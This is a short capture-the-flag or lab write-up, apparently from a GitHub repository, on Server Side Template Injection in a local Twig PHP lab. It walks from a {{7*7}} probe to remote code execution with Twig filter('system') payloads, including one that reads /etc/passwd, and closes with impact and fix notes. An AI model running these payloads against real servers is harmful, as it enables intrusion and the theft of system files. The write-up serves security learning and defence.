







# SSTI 0x01

## What is Server Side Template Injection (SSTI)?
SSTI is a vulnerability where user input is
embedded into a template engine on the server
without proper sanitization. The template engine
evaluates the input as code instead of plain text,
allowing attackers to execute arbitrary code on
the server — leading to full Remote Code Execution.

Common template engines: Twig (PHP), Jinja2 (Python),
Smarty (PHP), Freemarker (Java).

## Target
http://localhost:81/ssti0x01.php

## Vulnerability
The "Submit message" form passes user input directly
into the Twig (PHP) template engine without
sanitization. Any template syntax entered is
evaluated server-side.

## Attack

### Step 1 — Identify the lab
Opened SSTI 0x01 — a simple form where users
submit a greeting message that gets displayed
back on the page.

### Step 2 — Test normal input
Entered "Hellow" in the form.
Result: Page displayed "Hellow" — normal behavior.

### Step 3 — Identify template engine
Looked up Twig (PHP) payloads on HackTricks:
{{7*7}} = 49
${7*7} = ${7*7}  (not evaluated)
{{7*'7'}} = 49

### Step 4 — Test SSTI with math payload
Entered payload in the form:
{{7*7}}
Result: Page displayed "49" — SSTI confirmed!
The template engine evaluated 7*7.

### Step 5 — Escalate to RCE
Used Twig filter payload to execute system commands:
{{['id']|filter('system')}}
This passes the "id" command through the
PHP system() function.

### Step 6 — Confirm RCE
Result returned:
uid=33(www-data) gid=33(www-data)
groups=33(www-data) Array

Successfully achieved Remote Code Execution
as the www-data user!

## Payloads Used
```twig
{{7*7}}
{{['id']|filter('system')}}
{{['whoami']|filter('system')}}
{{['cat /etc/passwd']|filter('system')}}
```

## Screenshots








## Impact
- Full Remote Code Execution on the server
- Read any file accessible to www-data
- Read application source code and configs
- Database credentials disclosure possible
- Reverse shell and lateral movement possible
- Complete server compromise

## Fix
- Never pass user input directly to templates
- Use sandboxed template environments
- Strip or escape template syntax characters
- Use whitelisted templates with placeholders
- Run web server with minimal privileges
- Keep template engine libraries up to date
